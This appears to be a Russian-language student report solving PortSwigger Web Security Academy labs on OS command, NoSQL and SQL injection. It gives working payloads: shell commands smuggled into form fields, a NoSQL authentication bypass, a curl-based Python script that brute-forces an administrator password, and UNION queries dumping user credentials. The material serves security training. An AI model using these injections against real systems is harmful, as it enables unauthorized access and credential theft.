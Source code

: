 # Отчет по решению OS injection

## 1. Lab: OS command injection, simple case

Пошарился по лабе со включенным burp proxy, нашел post /product/stock, заинджектил в пост запрос `productId=2&storeId=1;whoami`

## 2. Lab: Blind OS command injection with time delays

В форме feedback можно поинжектить в поле email

` csrf=CvglT8HVqqhEjwmMgG9Z00uYphRnukWL&name=alaska&email=qwe%40ru.ru;sleep%2010;&subject=alaska&message=alaska`

## 3. Lab: Blind OS command injection with output redirection

Инжект находится в том же месте, где раньше, вывод можно посмотреть по пути /image?filename=who.txt

# Отчет по решению NoSQL

## 1. Lab: Detecting NoSQL injection

Инжект производится такой строкой
```
https://0a8b009a035541b580d0a832008f0051.web-security-academy.net/filter?category=Gifts%27||1||%27
```


## 2. Lab: Exploiting NoSQL operator injection to bypass authentication
```
{"username":{
"$regex": "admin.*"},"password":{
"$ne":""}
}
```


## 3. Lab: Exploiting NoSQL injection to extract data

Нашел ручку /user/lookup, написал переборный скрипт

```
import subprocess

for i in range(30):

    result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password.length=='{i}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()
    resfind = result.find("Could not find user")
    if resfind == -1:
        pass_len=i


print(pass_len)
alphabet="abcdefghijklmnopqrstuvwxyz"
pass_us = ""
for i in range(pass_len):
    for j in alphabet:
        result = subprocess.check_output(f"curl \"https://0a29004103d5c93c81b761b500610098.web-security-academy.net/user/lookup?user=administrator'+%26%26+this.password%5b{i}%5d+%3d%3d+'{j}\" -b \"session=gGfRWGzVNbFPkaRpdmbdDb6mU7GE1vyy\"",
                                         shell=True, stderr=subprocess.DEVNULL).decode()

        resfind = result.find("Could not find user")
        if resfind == -1:
            pass_us+=j
            print(pass_us)
            continue

```

# Отчет по решению SQL injection

## 1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Нашел, что в url параметрах в запросе при поиске пятисотит при вставке '1=1--

```
https://0aac002e042225ac814c524600eb0023.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%271=1--
```

Добавил туда OR и решил

## 2. Lab: SQL injection vulnerability allowing login bypass

В пароль вставил peter'+OR+1=1--

## 3. Lab: SQL injection attack, querying the database type and version on Oracle

Поигрался со строкой url и информацией из шпоры 

```
/filter?category=Clothing%2c+shoes+and+accessories'+UNION+SELECT+banner,+null+FROM+v$version--
```

## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

То же что и в прошлом пункте

```
GET /filter?category=Clothing%2c+shoes+and+accessories%27+UNION+SELECT+@@version,+null#
```

## 5. Lab: SQL injection attack, listing the database contents on non-Oracle databases

При помощи information_schema узнал название таблиц и столбцов, а далее

```
/filter?category=Food+%26+Drink'+UNION+SELECT+username_zlsgld,+password_pdgcrz+FROM+users_inrtyt-- 
```

## 6. Lab: SQL injection attack, listing the database contents on Oracle

Тут уже было all_tab_columns и all_tables

```
Pets'+UNION+SELECT+USERNAME_QPCQFG,+PASSWORD_SUWKHT+FROM+USERS_OUTBIY--
```

## 7. Lab: SQL injection UNION attack, determining the number of columns returned by the query

Написал переборный скрипт (lab7.py) и нашел, что нужное количество колонн в запросе - 3

```
https://0a65000d0335c09a818b5cbb001900b1.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,NULL,NULL--
```

## 8. Lab: SQL injection UNION attack, finding a column containing text
